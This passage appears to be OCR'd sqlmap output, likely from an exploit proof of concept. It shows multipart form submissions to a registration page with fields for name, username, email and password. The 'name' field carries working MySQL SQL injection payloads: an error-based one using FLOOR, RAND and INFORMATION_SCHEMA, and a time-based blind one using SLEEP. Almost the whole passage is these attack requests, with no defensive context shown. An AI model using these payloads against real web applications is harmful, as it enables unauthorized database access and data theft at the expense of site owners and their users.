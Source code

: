 ```
Content-Disposition: form-data; name="password"

Test123!
-----------------------------358741317412787265312048716550
Content-Disposition: form-data; name="rpassword"

Test123!
-----------------------------358741317412787265312048716550
Content-Disposition: form-data; name="submit"

Submit
-----------------------------358741317412787265312048716550--

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: -----------------------------358741317412787265312048716550
Content-Disposition: form-data; name="name"

test'||(SELECT 0x42474e51 WHERE 2291=2291 AND (SELECT 9160 FROM(SELECT COUNT(*),CONCAT(0x716b6b7671,(SELECT (ELT(9160=9160,1))),0x717a627871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))||'
-----------------------------358741317412787265312048716550
Content-Disposition: form-data; name="uname"

testersin
-----------------------------358741317412787265312048716550
Content-Disposition: form-data; name="email"

test@test.com
-----------------------------358741317412787265312048716550
Content-Disposition: form-data; name="password"

Test123!
-----------------------------358741317412787265312048716550
Content-Disposition: form-data; name="rpassword"

Test123!
-----------------------------358741317412787265312048716550
Content-Disposition: form-data; name="submit"

Submit
-----------------------------358741317412787265312048716550--

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: -----------------------------358741317412787265312048716550
Content-Disposition: form-data; name="name"

test'||(SELECT 0x7a477657 WHERE 4458=4458 AND (SELECT 2615 FROM (SELECT(SLEEP(5)))fPSA))||'
-----------------------------358741317412787265312048716550
Content-Disposition: form-data; name="uname"

testersin
-----------------------------358741317412787265312048716550
Content-Disposition: form-data; name="email"

test@test.com
-----------------------------358741317412787265312048716550
Content-Disposition: form-data; name="password"

Test123!
-----------------------------358741317412787265312048716550
Content-Disposition: form-data; name="rpassword"
```